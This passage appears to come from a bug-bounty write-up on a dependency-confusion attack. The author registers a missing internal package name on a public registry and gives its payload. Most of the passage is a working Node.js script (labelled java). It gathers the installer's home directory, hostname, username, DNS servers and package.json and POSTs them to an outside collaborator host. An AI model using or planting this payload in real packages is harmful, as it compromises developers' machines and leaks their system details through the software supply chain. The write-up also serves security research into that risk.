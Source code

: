 ## The Exploitaion
After investigating, I found out that the Combined packages were total of 9. Among which there were 5 python and 4 npm packages. I quickly went to the open-source programs listed before and quickly started searching which packages are missing and which are not? After a while , I founded Out of 9 only one package is missing on the platform. I quickly made a package with the same name of the package and wrote my Remote Code Execution Code below-

```java
//author:- mypackage@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "burpcollaborator.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();
```
